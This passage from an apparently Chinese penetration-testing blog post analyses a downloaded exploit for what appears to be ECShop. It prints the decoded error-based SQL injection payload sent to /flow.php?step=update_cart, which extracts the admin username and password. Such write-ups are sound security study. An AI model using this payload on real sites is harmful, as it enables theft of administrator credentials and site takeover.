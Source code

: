 &emsp;&emsp;下载后我们使用一下。
<div align="center">
    <img src="/images/posts/shentou/5.png" >  
</div>
&emsp;&emsp;发现确实可以拿到`admin`的密码。这里作者对这所谓的`exp`甚是好奇，所以就抓包分析了一下。
<div align="center">
    <img src="/images/posts/shentou/6.png" >  
</div>
&emsp;&emsp;可以看到，漏洞的位置是在：`/flow.php?step=update_cart`。把`body`部分拿出来解码一下，得到如下：
```goods_number[1' and (select 1 from(select count(*),concat((select (select (SELECT concat(user_name,0x7c,password) FROM ecs_admin_user limit 0,1)) from information_schema.tables limit 0,1),floor(rand(0)*2))x from information_schema.tables group by x)a) and 1=1 #]=1&submit=exp
```
&emsp;&emsp;可以发现就是一个`post`请求的`sql报错注入`。而它的返回值如下：
<div align="center">